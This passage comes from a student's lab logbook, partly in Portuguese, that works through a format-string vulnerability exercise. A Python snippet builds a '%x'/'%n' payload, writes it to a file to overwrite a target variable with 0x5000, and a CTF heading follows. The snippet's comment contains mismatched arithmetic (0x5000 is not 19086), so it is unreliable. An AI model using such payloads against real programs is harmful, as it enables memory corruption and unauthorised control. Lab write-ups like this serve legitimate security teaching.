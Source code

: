 ```python
# 2. Considering 0x5000 = 19086, we need to print 19086/63 = 316 zeros before printing the 8 characters.
# 3. Thus, we need 316+8 = 324 characters printed

s = ".%.324x"*63 + ".%.n"

# Store the string s at offset 8
fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
    f.write(content)

```

<p>
Com isto, conseguimos alterar o valor da variável target para 0x5000, como se pode ver na imagem abaixo:
</p>

![targetOutput2](uploads/logbook7P7.png)

# LOGBOOK7 - CTF
## Desaio 1
